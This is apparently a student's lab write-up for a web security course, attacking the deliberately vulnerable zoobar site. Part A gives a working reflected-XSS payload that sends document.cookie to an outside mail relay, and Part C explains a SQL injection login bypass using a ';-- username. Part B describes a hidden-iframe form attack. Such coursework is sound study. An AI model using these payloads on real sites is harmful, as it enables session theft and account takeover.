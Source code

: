 # Web Security Project

*This document is written in Markdown format.*

## A: URL Attack

### Vulnerabilities

When users of the website search for other users on the website, the URL query are process by the website PHP script and the query content is added to the response HTML body without any escaping mechanism. Thus, it is easy for attackers to insert some bad code into the URL query and let users' browser to execute it. 

### My attack

```javascript
(new Image()).src = 'http://zoomail.org/sendmail.php?' +'&netid=edydfang' + '&payload=' + document.cookie + '&random=' + Math.random();
```

The above JavaScript send a request to zoomail.org with the site cookies in the query. And zoomail.org will sent an email to the attack, letting the attacker know the cookies, which help the attack to fool the website as the identity of that user.

Query of user:

`\" size=10\>\<script\>(new Image()).src='http://zoomail.org/sendmail.php?'+'&netid=edydfang'+'&payload='+document.cookie+'&random='+Math.random();\</script\>\<input type=\"hidden`

Encoded query:

`%5C%22%20size%3D10%5C%3E%5C%3Cscript%5C%3E%28new%20Image%28%29%29.src%3D%27http%3A%2F%2Fzoomail.org%2Fsendmail.php%3F%27%2B%27%26netid%3Dedydfang%27%2B%27%26payload%3D%27%2Bdocument.cookie%2B%27%26random%3D%27%2BMath.random%28%29%3B%5C%3C%2Fscript%5C%3E%5C%3Cinput%20type%3D%5C%22hidden`

Full URL:

`http://zoobar.org/users.php?user=%5C%22%20size%3D10%5C%3E%5C%3Cscript%5C%3E%28new%20Image%28%29%29.src%3D%27http%3A%2F%2Fzoomail.org%2Fsendmail.php%3F%27%2B%27%26netid%3Dedydfang%27%2B%27%26payload%3D%27%2Bdocument.cookie%2B%27%26random%3D%27%2BMath.random%28%29%3B%5C%3C%2Fscript%5C%3E%5C%3Cinput%20type%3D%5C%22hidden`



## B: XSS Attack

### Vulnerabilities

The zoobar website use the cookies as a user identifier, letting the user to modify his/her information or transfer credits between users. However, when user access some malicious web pages, their cookies can be stolen and do something bad for them. Although modern web browsers help users to prevent XSS Attacks, there are many ways to work around this kind of protections such as reverse proxy and iframe method.

### My Attack

I created a webpage that send post request via an invisible form on the parent frame whose target is an invisible iframe. We put all the payload of the original transfer post into the form `input` items and then `submit`. After the iframe is loaded completely, which means our request has been sent out, we change the window location to `https://www.google.com` immediately.



## C: SQL Injection Attack

### Vulnerabilities

After analyzing the user login authorization part of the ZooBar PHP code, we will find that the most critical part of the code is in the file `includes/auth.php`.  

```php
function _checkLogin($username, $password) {
    $quoteduser = $this->db->quote($username);
    $sql = "SELECT Salt FROM Person WHERE Username = '$quoteduser'";
    $rs = $this->db->executeQuery($sql);
    if ( !$rs->next() ) return false;   // No such user
    $salt = $rs->getValueByNr(0,0);
    $hashedpassword = md5($password.$salt);
    $sql = "SELECT * FROM Person WHERE " .
           "Username = '$username' AND " .
           "Password = '$hashedpassword'";
    $result = $this->db->executeQuery($sql);
    if ( $result->next() ) {
      $this->_setCookie($result, true);
      return true;
    } else {
      return false;
    }
  }

```

In the above function `_checkLogin`, we can notice that the code will first check whether the user exists and then use another SQL to check the password. The stupid thing is that when it check the existence of the user, it use the `quote` function to do quote escaping work, which making the injection of this part impossible. However, in the password checking SQL, there is no such kind of escaping. We can just add something after the `username` to let the SQL drop the rest of the WHERE sentence. To achieve this, what we need to do is first create a user whose username we will use to attack later, then when we use the manipulated username to login, as that username exists, the program will continue and check for the password correctness. As the password checking part is not working anymore, we can successfully login the target account.

### My Attack

 I used the similar XSS of the Part B. The only difference is the post URL and the data we are sending. Also, for this attack, we need to send two package, one for registration and another for login.

For the username manipulation, we can simply append `';--` , making the SQL terminate and let the rest of the text be the comment. For example, when we want to login to the user account `attacker`, we will first register the account `attacker';--` and then we use this username again and a arbitrary password to login. The account we login will be `attack`.